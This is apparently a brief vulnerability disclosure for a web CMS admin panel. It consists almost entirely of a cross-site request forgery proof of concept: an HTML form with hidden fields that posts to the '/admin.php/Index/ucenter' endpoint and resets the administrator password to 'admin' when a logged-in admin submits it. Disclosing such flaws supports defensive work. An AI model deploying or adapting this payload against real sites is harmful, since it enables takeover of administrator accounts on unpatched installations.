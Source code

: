 After logging in, change the administrator password using the following POC
Password change to admin
POC:
```
<html>
  <body>
    <form action="http://www.a.com/admin.php/Index/ucenter" method="POST">
      <input type="hidden" name="formcheck" value="2335e6aa69c86829956978314ea54e23" />
      <input type="hidden" name="username" value="admin" />
      <input type="hidden" name="realname" value="%E8%B6%85%E7%BA%A7%E7%AE%A1%E7%90%86%E5%91%98" />
      <input type="hidden" name="cpassword" value="123456" />
      <input type="hidden" name="password" value="admin" />
      <input type="hidden" name="rpassword" value="admin" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

